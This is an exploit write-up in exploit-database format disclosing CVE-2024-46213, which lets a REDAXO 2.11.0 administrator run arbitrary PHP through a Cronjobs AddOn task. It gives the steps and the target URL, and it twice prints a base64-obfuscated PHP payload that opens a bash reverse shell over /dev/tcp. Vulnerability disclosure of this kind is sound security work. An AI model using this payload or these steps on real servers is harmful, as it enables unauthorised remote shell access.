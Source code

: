 # REDAXO Cronjobs AddOns RCE

## Basic Info

- **Exploit Title:** REDAXO Cronjobs AddOns RCE
- **Exploit Author:**L7dia
- **Vendor Homepage:** https://redaxo.org/
- **Software Link:** https://github.com/redaxo/redaxo
- **Version:** 2.11.0
- **Tested on:** Ubuntu20.04/PHP8.2
- **Payload:** `<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>`
- **CVE:** CVE-2024-46213

## Description

REDAXO CMS allows attackers to execution evil php code in Cronjobs Addon. Attackers can set any php code without verified as cronjob to achieve their evil purpose, even get shell.

## Proof of Concept

1. Log in as an administrator
2. Navigate to the AddOns-Cronjobs page(If not present, can install it by Main menu-AddOns)
3. Create a new cronjob, set "Type" to "PHP-Code", and set "PHP-Code" to evil PHP code, such as remote code execution.
4. (Optional) Set "Environment" to "Backend", can execute cronjobs mannually.
5. Save the cronjob, wait for automatic execution or execute it mannually. And then attackers can get shell or achieve other evil purpose.

![image-20240827112702567](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750587.png)

![image-20240827112715931](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750519.png)

```
http://127.0.0.1/redaxo/redaxo/index.php?page=cronjob/cronjobs&func=add&list=cronjobs
```

![image-20240827112917694](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750567.png)

```
<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>
```

![image-20240827112938919](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750553.png)

![image-20240827113004575](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750486.png)



